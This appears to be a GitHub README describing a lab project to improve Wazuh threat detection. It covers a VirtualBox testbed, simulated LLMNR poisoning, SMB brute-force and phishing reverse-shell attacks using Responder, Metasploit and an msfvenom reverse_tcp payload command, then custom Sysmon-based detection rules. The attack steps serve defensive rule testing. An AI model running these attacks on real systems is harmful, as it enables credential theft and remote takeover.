

# Enhancing Wazuh's Threat detection capabilities 

**Author:** Hassan Hijazi
**Project:** Enhancing Wazuh’s Detection Capabilities  
**Scope:**Setup • Simulated Attacks • Sysmon Integration • Rule Development

---

## Testbed Setup

To reproduce and test the detection rules documented here, follow this environment setup:

---

 1. Install VirtualBox

- Download and install [VirtualBox](https://www.virtualbox.org/) on your host machine.

---

 2. Create and Configure Virtual Machines

- **Windows 8 VM (Victim)**: Simulates the endpoint targeted by attacks.
- **Kali Linux VM (Attacker)**: Used to launch attacks.
- **Wazuh Environment (Monitor)**: Deploy the Wazuh Manager, Indexer, and Dashboard using a prebuilt OVA.

---

 3. Configure Host-Only Network

- In VirtualBox, ensure all VMs are on the **same Host-Only Network**.
- This allows internal communication while keeping VMs isolated from the internet.

---

 4. Install Wazuh Agent on Windows 8

- Download the Wazuh agent from [https://packages.wazuh.com](https://packages.wazuh.com).
- Install it and configure it with the Wazuh Manager's IP address.
- After installation:
  - Ensure the agent appears as **connected** on the Wazuh dashboard.
  - Install **Sysmon** to generate detailed Windows event logs (Explained in `Contributions`).
  - Use a `sysmonconfig.xml` to define which events to collect (Explained in `Contributions`).

---

 5. Validate the Setup

- Confirm that:
  - All VMs can ping each other.
  - Windows is generating Sysmon logs.
  - The Wazuh agent is sending data to the Wazuh Manager.
  - You can view logs and alerts in the Wazuh Dashboard.

---

This setup enables full testing of attack techniques and validation of the custom Wazuh detection rules documented in this project.


## Simulated Attacks

### 1. LLMNR Poisoning & NTLMv2 Hash Capture

**Tools:** Responder

**Steps:**
```bash
sudo apt update
sudo apt install responder -y
```
1. Start Responder on Kali.

 

2. Wait for the victim Windows machine to query a non-existent hostname.

  

3. Responder captures the NTLMv2 hash.
   


4. Find the hash in Responder logs.
   
  
  
5. Crack it using `john`.
    
     
    

---

### 2. SMB Brute-force & Reverse Shell

**Tools:** Metasploit

**Steps:**
1. Start Metasploit
```bash
msfconsole
```
2. Use module: `auxiliary/scanner/smb/smb_login`
   
      

3. Check the options

    
   
4. Set required options (RHOSTS, PASS_FILE, etc.)

    
   
5. Run and retrieve valid credentials (e.g., `Administrator:password2`)

    
   
6. Use exploit: `exploit/windows/smb/psexec`

    
    
7. Set required options (RHOSTS,LHSOT, etc.) and Run. Get a Meterpreter session.

     

---

### 3. Phishing-based Reverse Shell

**Tools:** `msfvenom`, Responder server, browser

**Steps:**
1. Generate reverse shell payload using `msfvenom`
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<kali_ip> LPORT=4444 -f exe > shell.exe
```
2. On snother terminal, Host `shell.exe` on a server.
   
 

2. Visit URL from Windows machine to download.
   
 

4. Start listener on Kali: `msfconsole` + `exploit/multi/handler`.

   
 

6. Execute on Windows → Meterpreter shell opens.

   
 


---

##  Contributions

### Sysmon Setup

1. Install Sysmon and create `sysmonconfig.xml` configuration file in the same directory

  Configuration example:

   

Note:
   - Use `onmatch="include"` for filetring
  

2. Run via CMD (as Administrator):
```bash
Sysmon64.exe -accepteula -i sysmonconfig.xml
Sysmon64.exe -c
```
3. You should be able to find Sysmon under windows:
   
    

4. Run Notepad (as Administrator) and open `ossec.conf` in the directory below:

    
   
6. Add the configuration below:

    


---

##  Wazuh Rule Development

### Rule File
The local rules live in:
```bash
/var/ossec/etc/rules/local_rules.xml
```

### To create Custom Lists (will see later)
Create lists in:
```bash
/var/ossec/etc/lists
```

Then include them in `ossec.conf`.

   
   
---

##  Written rules so far

###  LLMNR Detection
```xml
<group name="sysmon,llmnr,smb,responder">


  <!--Detect LLMNR-->

  <rule id="111122" level="10">
  <if_group>sysmon_event3</if_group>
   <field name="win.system.eventID" type="pcre2">^3$</field>
   <field name="win.system.providerName">Microsoft-Windows-Sysmon</field>
   <field name="win.eventdata.DestinationPort" type="pcre2">^5355$</field>
   <options>no_full_log</options>
   <description> Sysmon - LLMNR Netwok request via UDP 5355</description>  
  </rule>
 
  <rule id="111123" level="10" frequency="5" timeframe="1">
  <if_matched_sid>111122</if_matched_sid>
  <description>LLMNR requests (UDP port 5355)</description>
  <mitre>
	<id>T1557.001</id>
  </mitre>
  <options>no_full_log</options>
  <group>sysmon,llmnr</group>
  </rule>
 

  <!--Detect SMBConnection to untrusted device-->
<rule id="111124" level="10">  
	<if_group>sysmon_event3</if_group>
	<field name="win.eventdata.destinationPort" type="pcre2">^445$</field>
	<list field="win.eventdata.DestinationIp" lookup="not_match_key">etc/lists/trusted_smb_hosts</list>
	<options>no_full_log</options>
	<description>smb connection</description>
  </rule>
 

<rule id="111125" level="10" frequency="3" timeframe="1">
	<if_matched_sid>111124</if_matched_sid>
	<field name="win.eventdata.image" type="pcre2">^System$</field>
	<description>SMB connection with: $(win.eventdata.destinationIp) </description>
	<mitre>
  	<id>T1557.001</id>
	</mitre>
	<options>no_full_log</options>
  	<group>unstrusted,smb</group>
  </rule>
 

 <!-- only LLMNR+ Untrusted SMB -->
<rule id="111128" level="15" timeframe="10">
  <if_sid>111123</if_sid> <!-- if_matched_sid means that both events have to match in the given timeframe 10 -->
  <if_matched_sid>111125</if_matched_sid>
  <description>possible LLMNR-based Man-in-the-Middle attack with credential capture over SMB</description>
  <mitre>
	<id>T1557.001</id>

  </mitre>
  <group>responder_final</group>
  <options>no_full_log</options>
</rule>

 
</group>


<!-- unauthorized remote login -->
 <group name="untrusted,logon,remote">
<rule id="111130" level="13">
	<if_sid>92651</if_sid>
	<field name="win.eventdata.logonType" type="pcre2">10</field>
	<list field="win.eventdata.ipAddress" lookup="not_match_key">etc/lists/trusted_remote_hosts</list>
	<description>Unauthorized remote login from ip:$(win.eventdata.ipAddress).</description>
	<mitre>
  	<id>T1021.001</id>
  	<id>T1078.002</id>
	</mitre>
</rule>
</group>


<!-- Reverse shell -->

<!-- execution of malicious executable-->
<group name="reverse, shell">

<rule id="111140" level="7">
   <if_group>sysmon_event1</if_group> <!-- Sysmon Event 1: rule 61603 ProcessCreate (Built-in rule)-->
  <field name="win.system.eventID">1</field>
  <field name="win.eventdata.image" type="pcre2">(?i)^(?!.*\\(sppsvc|svchost|lsass|wininit|winlogon|csrss|userinit|smss|dwm|firefox|explorer|taskhostw|spoolsv|conhost|wmpnetwk|services|rundll32|ctfmon|SearchIndexer|audiodg|MsMpEng|SecurityHealthService|TrustedInstaller)\.(exe|scr|com|msi|bat|cmd|ps1|hta))(.+\.(exe|scr|com|msi|bat|cmd|ps1|hta))$</field>
  <description>Executable run: $(win.eventdata.commandLine)</description>
</rule>

<rule id="111141" level="7">
  <if_sid>111140</if_sid>
   <description>Executable run: $(win.eventdata.commandLine)</description>

</rule>

<!-- outbound connection -->
<rule id="111142" level="7">
   <if_group>sysmon_event3</if_group>
  <field name="win.system.eventID">3</field>
  <field name="win.eventdata.image" type="pcre2">(?i)^(?!.*\\(sppsvc|svchost|lsass|wininit|winlogon|csrss|userinit|smss|dwm|firefox|explorer|taskhostw|spoolsv|conhost|wmpnetwk|services|rundll32|ctfmon|SearchIndexer|audiodg|MsMpEng|SecurityHealthService|TrustedInstaller)\.(exe|scr|com|msi|bat|cmd|ps1|hta))(.+\.(exe|scr|com|msi|bat|cmd|ps1|hta))$</field>
  <description> executable made outbound connection: $(win.eventdata.image) → $(win.eventdata.destinationIp):$(win.eventdata.destinationPort)</description>
</rule>

<rule id="111143" level="15" timeframe="20" >
  <if_sid>111141</if_sid>     	 
  <if_matched_sid>111142</if_matched_sid>  <!-- uncommon-port child also fired -->
  <description>Possible reverse shell: $(win.eventdata.image) launched with outbound connection to uncommon port.</description>
  <group>reverse,correlation</group>
 <mitre>
  	<id>T1204.002</id>
  	<id>T1071</id>
	</mitre>
  <options>no_full_log</options>
</rule>
</group>


```


## Rule `111122`: Sysmon - LLMNR Network Request via UDP 5355

- **Purpose**: Detects a Windows host sending an LLMNR query via UDP on port 5355 using Sysmon logs.
- **Conditions**:
  - Event ID is `3` (Sysmon Network Connection).
  - Provider is `Microsoft-Windows-Sysmon`.
  - Destination port is `5355` (LLMNR).
- **Explanation**:
  - This captures LLMNR multicast traffic, which is typically exploited by tools like Responder.

---

## Rule `111123`: LLMNR Requests Correlation
- **Purpose**: Raises an alert if 5 LLMNR requests are detected within 1 second.
- **Correlates**: `if_matched_sid=111122`
- **MITRE**: `T1557.001` (Adversary-in-the-Middle)
- **Explanation**:
  - Detects repeated LLMNR queries suggesting active poisoning attempts.

---

## Rule `111124`: SMB Connection to Untrusted Device
- **Group**: `sysmon_event3`
- **Purpose**: Detects outbound SMB (port 445) connections to IPs not in the trusted list(trusted SMb servers).
- **Conditions**:
  - Port is 445 (SMB).
  - Destination IP **not in** `trusted_smb_hosts` list.
- **Explanation**:
  - Detects SMB activity.

---

## Rule `111125`: SMB from System to Untrusted
- **Purpose**:Raise an alert if it Detects `System` process initiating SMB to untrusted IP.
- **Correlates**: `if_matched_sid=111124`
- **Extra Check**:
  - Image field is exactly `System`.
- **MITRE**: `T1557.001`
- **Explanation**:
  - Indicates automated or unauthorized internal SMB activity.

---

## Rule `111128`: LLMNR + SMB = MITM
- **Purpose**: Raise an alert if it detects a potential Responder attack by correlating LLMNR and SMB alerts.
- **Correlates**: 
  - `if_sid=111123`
  - `if_matched_sid=111125`
- **MITRE**: `T1557.001`
- **Explanation**:
  - Strong signal of Responder tool behavior capturing credentials.

---

## Rule `111130`: Unauthorized Remote Login
- **Purpose**: Raise an alert if it detects remote desktop logins from untrusted hosts list.
- **Conditions**:
  - Based on rule `92651` (Logon).
  - `logonType=10` (RemoteInteractive).
  - IP not in `trusted_remote_hosts`.
- **MITRE**:
  - `T1021.001` (Remote Services: RDP)
  - `T1078.002` (Valid Accounts: Domain Accounts)

---

## Rule `111140`: Suspicious executable Execution (Not in safe windows processes)
- **Purpose**: Detects execution of `.exe`, `.ps1`, etc. not matching a whitelist.
- **Conditions**:
  - Event ID 1 (Process Create).
  - Regex excludes known safe Windows processes.

---

## Rule `111141`: Trigger on Suspicious Execution
- **Purpose**: Raise an alert. It Correlates with rule `111140`.
- **Explanation**: Captures command line of potentially malicious executable.

---

## Rule `111142`: Outbound Connection from Suspicious executable
- **Purpose**: Detects suspicious executables making outbound network connections.
- **Conditions**:
  - Event ID 3 (Network Connect).
  - Image not whitelisted.

---

## Rule `111143`: Correlation: Reverse Shell Indicator
- **Purpose**: Raise an alert. It Combines suspicious executable launch (rule `111141`) with outbound connection (rule `111143`).
- **Timeframe**: 20 seconds
- **MITRE**:
  - `T1204.002` (User Execution)
  - `T1071` (Application Layer Protocol)
- **Explanation**:
  - Strong signal of reverse shell (e.g., attacker-spawned executable connects to remote port).

---

## 🔎 Key Concepts Explained

- **Sysmon Event ID 1**: Process Creation  
- **Sysmon Event ID 3**: Network Connection  
- **`if_group`**: Checks if the event belongs to a logical rule group (e.g., all process creations).  
- **`if_sid`**:  use if_sid when you want to apply additional logic to the same event that was already matched by a previous rule. This is helpful for chaining conditions within a single log entry. For example, one rule might match a Sysmon Event ID 1 (process creation), and a follow-up rule with if_sid can further inspect the command line or parent process, all within that single log.
- **`if_matched_sid`**:if_matched_sid is used when you need to correlate multiple different events that occur over time. This is ideal for identifying attack patterns such as repeated LLMNR queries, multiple failed logins, or combining a suspicious file execution with a later network connection. It requires setting a timeframe and optionally a frequency, and it helps detect behavior that unfolds across multiple logs rather than a single one.
-  **`if_sid`** && **`if_matched_sid`**: You can also use both if_sid and if_matched_sid together when a rule needs to match the current event (via if_sid) but only if a related event occurred previously (via if_matched_sid). This is useful in complex attack detection, such as spotting a process launch now that follows a suspicious connection made earlier — enabling high-fidelity correlation of multi-stage attacks like reverse shells or man-in-the-middle credential theft.
- **`frequency` + `timeframe`**: Rule triggers only if a condition happens multiple times in a time window.  
- **`list` + `lookup=not_match_key`**: Triggers if the value is *not* in the trusted list.  
- **`type=pcre2`**: Regex-based field matching.  
- **`options>no_full_log`**: Prevents large logs from being stored in alerts.  
- **`group`**: Helps organize rules logically for searches or dashboards.
```

```
## Directory Structure

```
/var/ossec/
├── etc/
│   ├── rules/
│   │   └── local_rules.xml
│   ├── lists/
│   │   └── trusted_smb_hosts
│   │   └── trusted_remote_hosts
│   └── ossec.conf
```
